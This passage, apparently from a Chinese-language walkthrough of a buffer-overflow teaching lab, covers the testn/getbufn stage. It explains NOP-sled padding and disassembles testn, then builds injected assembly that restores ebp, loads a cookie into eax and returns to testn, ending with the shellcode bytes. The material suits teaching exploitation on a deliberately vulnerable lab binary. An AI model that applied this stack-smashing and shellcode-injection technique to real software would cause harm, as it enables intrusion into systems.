 ![](2019-05-07-01-41-30.png)

所以如果在注入的攻击代码的前面全部填充为 nop 指令（nop 指令的机器代码为 0x90），只要最后的返回地址落在了这一大堆 nop 指令中的任意一个，程序就会一直 nop 下去，直到运行到我们注入的汇编代码，而不会因为跳转到了我们注入到的有效代码中间某个位置而出现意想不到的结果。

因此，在注入代码的时候，有效的机器代码应当尽可能地往后放，在前面都填上 nop，也就是 0x90。

接下来需要处理的问题是注入并覆盖 ebp 后，把正确的 esp 还原回去。研究 testn 的部分汇编代码：

```s
Dump of assembler code for function testn:
   0x08048e26 <+0>:	push   %ebp
   0x08048e27 <+1>:	mov    %esp,%ebp
   0x08048e29 <+3>:	push   %ebx
   0x08048e2a <+4>:	sub    $0x24,%esp
   0x08048e2d <+7>:	call   0x8048d90 <uniqueval>
   0x08048e32 <+12>:	mov    %eax,-0xc(%ebp)
   0x08048e35 <+15>:	call   0x804920c <getbufn>
   0x08048e3a <+20>:	mov    %eax,%ebx
   0x08048e3c <+22>:	call   0x8048d90 <uniqueval>
```

在每一次调用了 getbufn 之后，ebp 的值将会被 push 进去。这个 ebp 值是等于 testn 被调用的时候 esp 存储的值的。esp 先由于push ebx而减去了4，再手动减去了0x24，所以这个时候 exp + 0x28 的值就是传入了 getbufn 开始的时候 ebp 的值。

所以构造出来的汇编代码如下：
```s
lea 0x28(%esp), %ebp
mov $0x362d5a70, %eax
push $0x08048e3a
ret
```
得到机器代码：
```
00000000 <.text>:
   0:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   4:	b8 70 5a 2d 36       	mov    $0x362d5a70,%eax
   9:	68 3a 8e 04 08       	push   $0x8048e3a
   e:	c3                   	ret    
  ```
整理得 `8d 6c 24 28 b8 70 5a 2d 36 68 3a 8e 04 08 c3`
